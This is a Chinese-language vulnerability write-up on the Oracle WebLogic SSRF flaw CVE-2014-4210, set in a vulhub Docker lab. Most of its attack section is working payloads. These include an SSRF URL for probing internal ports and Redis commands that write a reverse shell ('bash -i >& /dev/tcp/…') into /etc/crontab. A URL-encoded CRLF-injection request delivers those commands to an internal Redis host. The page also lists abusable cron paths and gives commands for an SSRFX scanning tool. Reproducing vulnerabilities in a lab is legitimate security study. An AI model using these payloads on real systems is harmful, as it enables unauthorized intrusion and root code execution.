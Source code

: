 # Weblogic SSRF漏洞 CVE-2014-4210

## 漏洞描述

Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件，此漏洞可通过HTTP协议利用，未经身份验证的远程攻击者可利用此漏洞影响受影响组件的机密性

## 漏洞影响

> [!NOTE]
>
> Oracle WebLogic Server 10.0.2.0
>
> Oracle WebLogic Server 10.3.6.0

## 环境搭建

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/ssrd
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:7001 正常即可

![](http://wikioss.peiqi.tech/vuln/weblogic-1.png)

## 漏洞复现

出现漏洞的 URL为 : http://xxx.xxx.xxx.xxx:7001/uddiexplorer/SearchPublicRegistries.jsp

 ![](http://wikioss.peiqi.tech/vuln/weblogic-12.png)

使用 payload 进行探测, 将探测的位置写在 operator参数中

> [!NOTE]
>
> 注意需要知道内网 IP

```
http://xxx.xxx.xxx.xxx:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://xxx.xxx.xxx.xxx:7001
```

通过查看报错内容来进行判断

 ![](http://wikioss.peiqi.tech/vuln/weblogic-13.png)

存在的报错内容如图，关键字为 **404**, 例如把 **operator** 参数改成 **http://xxx.xxx.xxx.xxx:7000** 这样不存在的则报错内容如下图

 ![](http://wikioss.peiqi.tech/vuln/weblogic-14.png)

通过这样的方法就可以探测内网的开放端口情况，例如内网中有一台主机 **IP：172.19.0.2** 开启了 **6379端口的redis服务**

![](http://wikioss.peiqi.tech/vuln/weblogic-15.png)

如果访问的非http协议，则会返回**did not have a valid SOAP content-type**，这样通过错误的不同，即可探测内网状态。

Weblogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入`%0a%0d`来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。

发送三条redis命令，将弹shell脚本写入**/etc/crontab** 中：

```shell
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

接着再将请求进行 **url编码**, 

> [!NOTE]
>
> 注意，换行符是“\r\n”，也就是“%0D%0A”

```shell
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F9999%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

发送payload

```shell
http://xxx.xxx.xxx.xxx:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.19.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.19.0.3%2F9999%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

发送后监听 **172.19.0.3 9999端口** 等待反弹shell

![](http://wikioss.peiqi.tech/vuln/weblogic-16.png)

> [!NOTE]
>
> 最后补充一下，可进行利用的cron有如下几个地方：
>
> /etc/crontab 这个是肯定的
>
> /etc/cron.d/* 将任意文件写到该目录下，效果和crontab相同，格式也要和/etc/crontab相同。漏洞利用这个目录，可以做到不覆盖任何其他文件的情况进行弹shell。
>
> /var/spool/cron/root centos系统下root用户的cron文件
>
> /var/spool/cron/crontabs/root debian系统下root用户的cron文件

## 漏洞利用POC

[GitHub脚本 CVE-2014-4210+Redis未授权访问](https://github.com/NoneNotNull/SSRFX)

```shell
存活扫描:
python SSRFX.py --url http://example.com/uddiexplorer/SearchPublicRegistries.jsp --app weblogic --network 172.16.5.0/24 --type livedetect

端口扫描:
python SSRFX.py --url http://example.com/uddiexplorer/SearchPublicRegistries.jsp --app weblogic --network 172.16.5.0/24 --type portscan
```

![](http://wikioss.peiqi.tech/vuln/weblogic-17.png)

## Goby && POC

> [!NOTE]
>
> Weblogic SSRF漏洞 CVE-2014-4210

![](http://wikioss.peiqi.tech/vuln/weblogic-18.png)